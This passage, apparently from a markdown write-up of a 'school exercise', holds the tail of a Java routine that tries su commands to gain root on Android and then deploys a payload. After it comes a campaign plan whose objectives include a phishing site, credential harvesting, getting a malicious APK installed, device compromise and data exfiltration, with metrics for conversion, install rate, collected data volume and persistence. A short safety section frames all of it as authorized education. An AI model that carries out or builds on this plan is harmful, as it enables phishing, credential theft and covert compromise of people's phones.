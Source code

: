 ```java
            "su -c 'id'",
            "/system/xbin/su -c 'id'",
            "/system/bin/su -c 'id'"
        };
        
        for (String cmd : exploitCommands) {
            try {
                Process process = Runtime.getRuntime().exec(cmd);
                // Check if root access obtained
                if (process.waitFor() == 0) {
                    // Root access successful - proceed with payload
                    deployRootPayload();
                    break;
                }
            } catch (Exception e) {
                // Try next exploit
            }
        }
    }
}
```

## Exercise Objectives & Metrics

### Primary Objectives
- [ ] Successful phishing site deployment
- [ ] Credential harvesting from form submission  
- [ ] APK download and installation
- [ ] Device compromise demonstration
- [ ] Data exfiltration proof-of-concept

### Success Metrics
- Conversion rate (visits → form submission)
- APK installation rate
- Root access achievement
- Data collection volume
- Persistence duration

### Educational Outcomes
- Understanding mobile attack vectors
- Social engineering effectiveness
- Device security assessment
- Incident response procedures
- Digital forensics evidence collection

## Safety & Legal Considerations
- Only use on authorized school devices
- Document all activities for educational review
- Maintain controlled environment
- Follow responsible disclosure
- Clean up all payloads post-exercise
- Protect any collected data appropriately
